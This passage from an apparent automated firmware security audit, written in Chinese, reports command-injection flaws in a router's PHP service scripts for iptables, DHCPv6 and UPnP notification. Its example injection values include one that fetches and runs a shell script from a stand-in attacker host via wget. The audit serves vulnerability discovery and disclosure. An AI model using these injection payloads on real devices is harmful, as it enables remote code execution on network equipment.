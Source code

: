   ```
      if($SSL == '0')
          {$ipt_cmd=$ipt_cmd." --dport ".$E_PORT." -j REDIRECT --to-ports ".query("/webaccess/httpport");}
      else
          {$ipt_cmd=$ipt_cmd." --dport ".$E_PORT." -j REDIRECT --to-ports ".query("/webaccess/httpsport");}
      
      if($ipt_cmd!="")
      {
          $del_ipt="iptables -t nat -D ".$ipt_cmd;
          exe_ouside_cmd($del_ipt);
          $add_ipt="iptables -t nat -A ".$ipt_cmd;
          exe_ouside_cmd($add_ipt);
      }
      // ... 更多代码
  }
  ```
- **关键词：** $C_IP, $E_PORT, $MODE, /runtime/webaccess/
- **备注：** 漏洞利用链完整：不可信输入（$C_IP/$E_PORT）→ 命令构建 → 执行。建议验证 Web 服务器运行权限和输入点可访问性。其他模式（如 SEND_IGD）也可能存在类似问题，但 DS_IPT 模式证据最明确。

---
### Command-Injection-dhcps6-commands

- **文件/目录路径：** `etc/services/DHCPS/dhcps6.php`
- **位置：** `dhcps6.php:commands 函数（具体行号未在输出中显示，但代码片段中多次出现，例如在生成 radvd 和 dhcp6s 命令处）`
- **风险评分：** 8.5
- **置信度：** 9.0
- **描述：** 在 'dhcps6.php' 的 `commands` 函数中，用户可控的 `$inf` 参数（接口UID）被直接插入到 shell 命令字符串中，缺乏适当的输入验证或转义，导致命令注入漏洞。攻击者可通过恶意构造的 `$name` 参数（传入 `dhcps6setup` 函数）注入任意命令。触发条件：当脚本处理DHCPv6配置时，调用 `dhcps6setup` 函数并执行相关命令。利用方式：攻击者设置 `$name` 包含 shell 元字符（如分号、反引号），例如 'attacker; echo hacked'，从而在命令执行时注入并执行恶意代码。该漏洞允许非root用户提升权限或执行系统命令。
- **代码片段：**
  ```
  示例代码片段：
  - \`startcmd('radvd -C '.$racfg.' -p '.$rapid);\` // $racfg 包含 $inf
  - \`startcmd('dhcp6s -c '.$dhcpcfg.' -P '.$dhcppid.' -s '.$hlp.' -u '.$inf.' '.$ifname);\` // $inf 直接用于命令
  其中 $inf 来自 $name 参数，未经验证即用于字符串拼接。
  ```
- **关键词：** $name 参数（用户输入）, /var/run/radvd.*.conf, /var/run/dhcps6.*.conf, radvd 命令, dhcp6s 命令
- **备注：** 该漏洞需要攻击者已通过认证并能调用相关函数（例如通过Web管理界面）。建议检查输入来源并实施严格的输入验证和转义。后续可分析其他调用该脚本的组件以确认攻击向量。

---
### Command-Injection-upnp-NOTIFY-WFADEV-host

- **文件/目录路径：** `etc/scripts/upnp/run.NOTIFY-WFADEV.php`
- **位置：** `run.NOTIFY-WFADEV.php: 在 foreach ($SERVICE."/subscription") 循环中（具体行号不可用，但从代码结构位于循环体内）`
- **风险评分：** 8.5
- **置信度：** 9.0
- **描述：** 命令注入漏洞存在于 $host 变量的使用中。当处理 UPnP 事件通知时，脚本通过 `query("host")` 获取 $host 值（来自 UPnP 订阅请求），并直接嵌入到 `httpc` 命令的 `-d` 参数中。由于 $host 被包裹在双引号中但未转义，攻击者可在 $host 中注入特殊字符（如 `"; malicious_command; "`）来突破双引号限制并执行任意命令。触发条件：攻击者通过 UPnP 订阅设置恶意的 'host' 值；当设备处理通知时，脚本执行并触发命令注入。约束条件：攻击者需拥有有效登录凭据并连接到设备网络。潜在攻击方式：注入命令如 `"; wget http://attacker.com/malware.sh -O /tmp/malware.sh; sh /tmp/malware.sh; "` 到 $host，导致远程代码执行。相关代码逻辑：数据流从 UPnP 请求到 `query("host")`，最终在 `httpc` 命令中执行。
- **代码片段：**
  ```
  从 'run.NOTIFY-WFADEV.php' 相关代码：
  foreach ($SERVICE."/subscription")
  {
  	$host = query("host");
  	// ... 其他代码 ...
  	echo "cat ".$temp_file." | httpc -i ".$phyinf." -d \"".$host."\" -p TCP > /dev/null\n";
  }
  ```